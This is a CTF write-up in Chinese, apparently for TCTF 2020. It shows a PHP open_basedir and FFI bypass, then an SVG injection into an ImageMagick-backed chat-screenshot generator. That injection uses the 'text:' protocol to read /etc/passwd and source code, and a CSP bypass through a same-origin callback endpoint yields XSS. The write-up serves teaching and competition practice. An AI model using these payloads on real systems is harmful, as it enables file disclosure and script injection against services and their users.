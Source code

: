 # TCTF writeup by r00t

两道web进决赛，尬笑。其实本来还可以接着做的，但是看不到希望就放弃了，结果进决赛了，挺突然的。

## Welcome

flag{this_is_a_sample_flag}

## easyphp

开着 open_basedir 和 disable_functions，可以用 DirectoryIterator 列一下目录。

```php
$it = new DirectoryIterator("glob:///*");foreach($it as $i){echo $i." ";}
```

发现根目录存在`flag.h flag.so`，两个文件，根据 phpinfo()得到的开着 FFI 扩展，大概是 load 这个 flag.h 调用里面的函数，但一直没找到能绕过的方法。后来发现似乎有时能 file_get_contents，读到`/flag.h`

```h
#define FFI_LIB "/flag.so"
#define FFI_SCOPE "flag"

char* flag_fUn3t1on_fFi();
```

大概是其他人做题的时候破坏了环境，不过既然已经读到了就直接打出去了

```php
$ffi = FFI::load("/flag.h");
$flag = $ffi->flag_fUn3t1on_fFi();
var_dump(FFI::string($flag));
```

flag{FFi_1s_qu1T3_DANg1ouS}

## Wechat Generator

一个生成微信聊天截屏的程序，可以预览或者分享。当创建一个分享链接的时候，存在`http://pwnable.org:5000/image/KHnUHX/png`这样一个图片，在测试的时候把 png 换成 svg，jpg 甚至是 mp4 都是可以转换的，猜测后面是 ImageMagick。

当类型是 svg 的时候可以看到插入的 text 标签

```xml
<text font-family="SimHei,SimHei" font-size="72">Me too!!!</text>
<image x="360" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/smile.png" />
<text x="460" font-family="SimHei,SimHei" font-size="72"></text>
```

经过测试发现方括号内的"没有被转义，从而导致注入。ImageMagick 之前存在过 svg 导致的代码执行，翻了翻资料找了空指针公开赛的一个非预期[https://mp.weixin.qq.com/s/rMh-hABCdGpYpGqtFFiKOA](https://mp.weixin.qq.com/s/rMh-hABCdGpYpGqtFFiKOA)，（发现这个非预期的作者竟然是 0ops 成员，大喜），`text:`协议可以把文本画在图片上。
构造一个请求

```json
data = [
  { "type": 0, "message": "Love you!" },
  {
    "type": 1,
    "message": "Me too!!![smile\"/><image xlink:href=\"text:/etc/passwd\"/><a p=\"]"
  }
]
```

可以成功读取到 passwd

![app](./img/2020-tctf-1.png)

因为是 python 程序，所以试探性的读一下 app.py 读到了源码，不过不管怎么操作，都只能读到一部分

![app](./img/2020-tctf-2.png)

根据源码，发现了一个神秘的路径`/SUp3r_S3cret_URL/0Nly_4dM1n_Kn0ws`，一个 xss，这就解释通为什么所有页面都带着`img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'`这个 csp 了。

根据策略，需要找到了一个可控的 html 加载一个同源的 script 来绕过。可以把 image 那个地方的 png 换成 htm 产生一个可操作的 html 文档。但是可控的同源 js 就不太好找了，最后发现可以在`/share`中创建一个`previewid="}alert("1");{"`在`/image`中产生一个可控的报错。

```json
{"error": "Convert exception: unable to open image `previews/"}alert("1");{"': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

但是直接用 js 引进来会产生语法错误，这里试了好久，最后发现出题人留了个 callback 参数，可以避免这个语法错误（狂喜

至此，构造一个 script 标签把报错进入进来就可以了

```json
data = [
  {
    "type": 1,
    "message": "a[a.png\"/></svg><script srsrcc=\"/image/moUOAB/png?callback=iii\"></script><!--]"
  }
]
```

```html
<text font-family="SimHei,SimHei" font-size="72">a</text>
<image x="40" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/a.png"/>
</svg>
<script type="application/javascript" src="/image/moUOAB/png?callback=iii"></script>
<!--.png" /><text x="140" font-family="SimHei,SimHei" font-size="72"></text>
```

成功弹窗，提交后拿到flag

